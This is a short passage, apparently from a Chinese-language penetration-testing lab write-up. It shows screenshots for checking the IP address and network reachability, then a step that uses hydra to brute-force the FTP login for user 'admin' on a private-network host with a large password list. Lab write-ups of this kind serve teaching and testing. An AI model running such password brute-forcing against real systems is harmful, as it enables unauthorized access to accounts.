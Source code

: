 ![Alt text](image-61.png)   
查看ip   
![Alt text](image-59.png)      
查看网络是否通   
![Alt text](image-60.png)   
### 3.2 使用 `hydra` 进行爆破。
```shell
 hydra 192.168.228.137 ftp -l admin -P /usr/share/hydra/10-million-password-list-top-1000000.txt -vV -f -e ns
```